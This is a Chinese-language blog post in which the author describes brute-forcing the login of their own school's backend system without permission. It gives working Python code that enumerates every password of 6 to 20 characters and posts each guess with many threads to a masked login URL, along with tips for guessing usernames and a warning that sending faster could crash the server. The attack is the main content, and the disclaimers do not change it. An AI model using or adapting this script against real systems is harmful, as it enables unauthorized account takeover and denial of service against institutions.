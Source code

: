 ```yaml
---
title: 「危」暴力攻入学校的后台系统
createdAt: "2021-05-29"
category: 日常
heroImg: https://www.hualigs.cn/image/60b24cbc1d501.jpg
---
```


危险操作，请酌情采用，本文仅提供暴力破解的思路，从一个实例中学习。

本文不是专门针对学校，只是因为学校的服务器防御力比较高，在受到攻击的时候会很自觉地返回 **服务器压力过大**，即使从理论上来讲给埃拉两三年的时间可以破解进去，但是学校的响应速度也真的是感人，是个人都没有这种耐心（毕竟我没有那么多钱去应酬云服务器，而且浪费时间在这种无价值的地方也不是上策）


生成、创建进程、发送、等返回、关闭，一气呵成

## 侦察任务，勘探地形

如果你仔细发掘一下终端，你会发现几个重要的入口，埃拉这里是 `/theme/js/login.js` 的 Javascript 文件

![](https://www.hualigs.cn/image/60b25080753d8.jpg)

然后打开它来研究研究，你会发现存储用户名的变量竟然叫 `usrname`，密码是 `passwd`，并且序列化后就毫不犹豫地 POST 出去了，那么我们自己用 Postman 来试试看行不行

![](https://www.hualigs.cn/image/60b250ffbdabb.jpg)

然后装模做样地写好要传过去的数据（`学生会1` 这个用户名是埃拉通过小道消息得来的，通常你们可以试试看 admin 之类的）

![](https://www.hualigs.cn/image/60b2522570d02.jpg)

然后我们可以看到 `<p class="error">登录失败，密码错误.</p>` 这样的返回值（如果用户名不存在则会直接提示 `用户不存在`），现在我们就大概知道了几个重要的信息：

- 被攻击者的 URL
- 需要提供的数据
- 返回的数据

## 通过字典生成密码

```python
import itertools as its

def crack():
    words="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ@." # 你觉得可能出现的字符，密码多为 ASCII 码字符
    count=0
    for num in range(6,20): # 指定密码位数，这里是从 6~20 位
        keys=its.product(words,repeat=num)
        for key in keys:
            print("".join(key)) # 此时 "".join(key) 即为生成的密码
            count += 1
```

## 发送数据，处理返回值

```python
import requests
from bs4 import BeautifulSoup

def inject(passwd): # 这里传入刚刚生成的密码
    headers={'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.110 Safari/537.36' }
    all_url = 'http://xxx.xxx.xx.xxx:30000/xxxxxx.php/base/login'  # 这里屏蔽一下 ipv4，免得学校找我麻烦
    start_html = requests.post(all_url,  headers=headers, json= {
        "usrname": "", # 问问你高二高三的学长，他们可能会告诉你用户名
        "passwd": passwd
    })
    soup = BeautifulSoup(start_html.text, 'lxml') # 使用 bs4 对返回的 html 进行解析
    try:
        if soup.select("p[class='error']")[0].getText() != "登录失败，密码错误.": # 剖析 html，提取出这个返回信息，如果不是这个返回信息，那就对了（因为用户名是已知的（对埃拉而言））
            print("[√ 成功破解] The PASSWD is '"+ passwd +"\n")
            with open('success.txt', 'w') as file:
                file.write("[√ 成功破解] The PASSWD is '"+ passwd +"\n") # 保存正确的密码
                file.close()
        else:
            print("[× 错误] "+passwd+"\n") # 输出错误的密码
    except:
        print("[× 异常] "+passwd+"\n") # 抛出异常
```

## 提升破解效率

如果我们只是使用刚刚的方法，那么每一次的破解都会在上一个破解完成后才进行，这样会 **很慢很慢**，所以我们可以使用多线程来克服这个问题，最终的代码如下

```python
"""
🍀 本代码理论上可行，但是需要充足的时间，起码三年吧，不取决于你的算力，而是他们的反应能力（恕我直言，我实在没见过这么垃圾的服务器）
【本代码在正常情况下禁止运行（除非迫不得已），否则后果自负！】
如果你要问我为什么搞这个，那么就问问考试院为什么要加 Python，以及，学校图书馆为什么教会了我爬虫和数据解析
"""
import requests
from bs4 import BeautifulSoup
import itertools as its
import _thread
import time

def inject(passwd,thread_name):
    headers={'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.110 Safari/537.36' }
    all_url = 'http://xxx.xxx.xx.xxx:30000/xxxxxxx.php/base/login'
    start_html = requests.post(all_url,  headers=headers, json= {
        "usrname": "",
        "passwd": passwd
    })
    soup = BeautifulSoup(start_html.text, 'lxml')
    try:
        if soup.select("p[class='error']")[0].getText() != "登录失败，密码错误.":
            print("[√ 成功破解] The PASSWD is '"+ passwd + "'"+" 线程名："+thread_name+"\n")
            with open('success.txt', 'w') as file:
                file.write("[√ 成功破解] The PASSWD is '"+ passwd + "'"+" 线程名："+thread_name+"\n")
                file.close()
        else:
            print("[× 错误] "+passwd+" 线程名："+thread_name+"\n")
    except:
        print("[× 异常] "+passwd+" 线程名："+thread_name+"\n")
    _thread.exit() # 退出当前线程

def crack():
    words="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ@."
    count=0
    for num in range(6,20):
        keys=its.product(words,repeat=num)
        for key in keys:
            _thread.start_new_thread( inject, ("".join(key), "Thread-"+str(count), ) )
            time.sleep(0.05) # 如果你调成更小的数值，你就等校领导找上门来吧，因为服务器会直接崩溃！
            count += 1

if __name__ == "__main__":
    crack()
```

请注意控制好线程创建速度！如果你设置得太小，就算你的计算机承受的住，人家的服务器可能承受不住~

OK，就这么多了，同样的代码我已经发布到 Github Gist 上，可以进行查阅！🍀后续可能会再出一些克服验证码的方案！